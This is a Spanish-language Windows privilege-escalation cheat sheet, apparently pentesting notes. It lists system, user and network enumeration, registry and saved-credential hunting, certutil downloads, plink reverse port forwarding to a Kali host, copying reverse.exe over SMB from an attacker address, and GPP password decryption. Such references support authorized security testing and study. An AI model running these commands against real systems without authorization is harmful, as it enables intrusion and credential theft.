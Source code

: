 ### Enumeración del sistema[](#enumeracion-del-sistema)

```python
	systeminfo
	
	systeminfo | findstr /B /C: "OS Name" /C: "OS Version" /C: "System Type"
	
	wmic qfe get Caption, Description, HotFixID, InstalledOn #Muestra actualizaciones del sistema
	
	wmic logicaldisk get caption, description, providername #Muestra discos
```
### Enumeración de usuarios[](#enumeracion-de-usuarios)

```python
whoami

whoami /priv

whoami /groups

net user

net user <USUARIO>

net localgroup

net localgroup <GRUPO>
```
### Enumeración de red[](#enumeracion-de-red)
```python
ip a

ifconfig

route

ip route

aipconfig

ipconfig /all #Información extendida

arp -a

route print

netstat -ano
```
### Búsqueda de archivos[](#busqueda-de-archivos)
```python
#CMD

where /r c:\ file.txt

#Powershell

Get-ChildItem -Path C:\Myfolder -Filter file.txt -Recurs
```
### Búsqueda de credenciales[](#busqueda-de-credenciales)
```python
#Valores en el registro que contengan la string “password”

reg query HKLM /f password /t REG_SZ /s

#Listar autologon passwords

reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

#Lista contraseñas guardadas

cmdkey /list

[

![](https://github.com/fluidicon.png)

PayloadsAllTheThings/Windows - Privilege Escalation.md at master · swisskyrepo/PayloadsAllTheThings

GitHub





](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---looting-for-passwords)
```
#### 

Enumeración de antivirus[](#enumeracion-de-antivirus)

sc query windefend

sc queryex type= service #Lista servicios activos

netsh advfirewall firewall dump

#### 

Enumeración con herramientas automáticas[](#enumeracion-con-herramientas-automaticas)

[

![](https://github.com/fluidicon.png)

Release Release refs/heads/master 20230108 · carlospolop/PEASS-ng

GitHub





](https://github.com/carlospolop/PEASS-ng/releases/tag/20230108)

[

![](https://github.com/fluidicon.png)

GitHub - bitsadmin/wesng: Windows Exploit Suggester - Next Generation

GitHub





](https://github.com/bitsadmin/wesng)

### 

Funciones básicas[](#funciones-basicas)

#### 

Descarga de archivos[](#descarga-de-archivos)

certutil.exe -urlcache -f <URL> <OUTPUT_FILE>

#### 

Comprobación de permisos sobre un archivo[](#comprobacion-de-permisos-sobre-un-archivo)

accesschk.exe /accepteula -quvw <user> <Ruta absoluta del archivo>

#### 

Ejecución de un programa como otro usuario en Powershell[](#ejecucion-de-un-programa-como-otro-usuario-en-powershell)

powershell -c "$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential('<USER>', $password);Start-Process -FilePath "<PROGRAM.EXE>" -Credential $creds"

#### 

Windows Port Forwarding[](#windows-port-forwarding)

plink.exe -l <KALI_USER> -pw <KALI_USER_PASS> -R <KALI_PORT>:<LOCAL_IP/LOCALHOST_IP>:<LOCAL_PORT> <KALI_IP>

#### 

Transferencia de archivos mediante smb[](#transferencia-de-archivos-mediante-smb)

sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali . #Kali

copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe #Windows

#### 

Desencriptado GPP[](#desencriptado-gpp)

gpp-decrypt "<hash>"